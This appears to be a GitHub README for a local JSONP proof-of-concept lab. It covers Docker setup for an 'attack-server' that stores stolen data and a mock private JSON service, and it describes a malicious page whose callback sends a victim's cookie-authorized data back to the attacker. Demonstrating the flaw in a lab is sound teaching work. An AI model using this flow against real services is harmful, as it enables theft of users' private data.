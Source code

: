 # JSONP-PoC
JSONP (=JSON with padding) is a special method to wrap JSON data in a JavaScript function.
If a webservice allows requests with custom defined callback-functions, the webservice might be vulnerable to JSONP attacks.
How this could be achieved, is described below.

## Starting the attack-server
The attack-server is the server that receives our data and stores it in a file. To do this, we need to make a POST request to http://127.0.0.1:8082/store.php with the `data` parameter. For example:
```
POST /store.php HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

data=test
```
See also `test-post.html` which can be used to make such POST requests.

To start the server:
```
cd attack-server
docker run -d --rm -p 8082:80 --name attack-server --mount type=bind,source="$(pwd)",target=/var/www/html php:apache
```
The file `./data/data.sav` may still need to be given the correct permissions:
```
docker exec -it attack-server bash
mkdir data
touch data/data.sav
chown -R www-data:www-data data
```

## Starting the (private) json-webserver
```
cd json-webserver
docker run --rm -p 3000:3000 --name json-server -v `pwd`:/data williamyeh/json-server --watch db.json
```

## Checks
Verify if POST-requests can be sent to the attack-server:
```
http://127.0.0.1:8082/test-post.html
```
Change into the docker container and output the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
The file `data.sav` should contain the string that you sent via the `test-post.html` website.

Check if the json-webserver is running and responds with JSON-data:
```
http://127.0.0.1:3000/posts
```

## PoC
Now assume the following scenario:
If the webservice or the data served by the webservice (json-webserver) is only accessible to authorized users, there is no way to directly access this private data by an attacker. For example, accessibility to the data could be granted to users that include certain cookies or other secrets into their requests. The webservice would then respond to these requests only if the cookies are valid.
Additionally, access to the API could be forbidden due to the Same-Origin Policy.

If however the webservice allows JSONP, we could create a malicious website that makes requests from the victims browser to the vulnerable webservice. The requests sent from the victims browser would include all necessary cookies to authorize against the webservice.
The only thing to do is to lure the victim to the malicious website.
In our PoC the malicious website is running under
```
http://127.0.0.1:8082/malicious.html
```

If the victim opens this link, a request to the webservice with a callback parameter is made:
```
http://127.0.0.1:3000/posts?callback=myCallbackServer
```
The callback `myCallbackServer` is a JavaScript-function that takes the data received from the webservice and sends it back to our attack-server via
```
http://127.0.0.1:8082/store.php
```

It can be checked if the data from the webservice was received correctly by cat'ing the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```


## Stopping the servers
```
docker stop attack-server
docker stop json-server
```